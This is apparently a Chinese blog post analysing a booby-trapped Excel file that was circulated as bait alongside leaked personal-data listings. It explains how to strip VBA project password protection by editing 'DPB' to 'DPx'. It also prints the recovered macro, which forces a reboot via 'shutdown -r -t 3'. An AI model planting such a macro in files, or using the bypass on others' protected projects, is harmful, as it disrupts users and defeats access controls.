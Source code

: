 ```yaml
---
layout: default
title: Microsoft Excel VBAScript宏脚本病毒分析
subtitle: 破解Excel文档加密宏VBA方法
apptitle: 破解Excel文档加密宏VBA方法
category: xxx
description: 全国楼凤伴游.xls 下载
permalink: /:categories/:year/:month/:day/:title
author: 全栈CEO
date: 2019/09/29
tags:
    - xxx
---
```


昨天在Telegram上看到有人在大量发布倒卖个人隐私信息的消息“`全国选取最美校花报名信息个人资料联系方式详细`xls”、“`全国伴游网女性数据地区年龄身高电话微信QQ全有`xls”，上传到百度网盘、蓝奏云传播，通过8图片网生成二维码赚取灰色收入，每个压缩包解压密码**69**元（支付宝收款方为`南京罗兰布艺专卖店`），再附加上诱惑性诈骗PUA约炮资料“`零成本睡女大学生，只付房费技巧分享`”。

今天随手搜索到了这些文档，其中有一个是全国伴游楼凤.xls，百度网盘Download之，打开Excel文档后醒目的提示含有VBA不安全宏脚本，启用之，中毒矣！瞬间电脑上打开的程序都自动关闭了，弹窗提示1分钟之内注销电脑并重启。   


## VBA宏脚本分析


> 当打开此文档的人启用过VB宏后，再点击任意一个单元格就会执行这个注销电脑登陆并重启的shell脚本。并且此宏模块无法编辑和查看，Alt+F11快速进入宏控制台界面，提示需要输入密码，被小人加密过。


## VBA宏解密


> 如果是高版本的Excel格式不为xls的需要保存为`xls`，再使用 **Notepad++**打开，查找 **`DPB`** 并修改为 **`DPx`** ，再保存使用Excel打开，此时会报错，忽略即可。再按快捷键 **`Alt+F11`** 打开VBA控制台，继续报错，忽略之。此时已经可以看到相关代码模块了，点击看到有Password处，修改密码。再到菜单 `工具` 里进入`VBAProject属性` 进入 `保护` 选项卡界面，设置密码并勾选`查看时锁定工程`。等一会儿模块代码内容就加载出来了，可以看到这家伙只是用`shell`脚本写了个关机重启的命令。   


#### VB宏脚本

```Shell
'Private Declare Function ExitWindowsEx Lib "user32" (ByVal uFlags As Long, ByVal dwReserved As Long) As Long
Public Sub msg()
'ExitWindowsEx ewx_reboot, 0
Shell "shutdown -r -t 3"
End Sub
```

![]({{site.cdn}}/img/vba/excel破解加密宏脚本VBA-DPB-dpx-QQ截图20190929205902.png)


![]({{site.cdn}}/img/vba/excel破解加密宏脚本VBA-QQ截图20190929205830.png)


![]({{site.cdn}}/img/vba/excel破解加密宏脚本VBA属性保护QQ截图20190929205734.png)


![]({{site.cdn}}/img/vba/excel破解加密宏脚本VBA属性保护设置新密码即可QQ截图20190929205801.png)


![]({{site.cdn}}/img/vba/全国楼凤excel单击单元格自动关机宏脚本QQ截图20190929205655.png)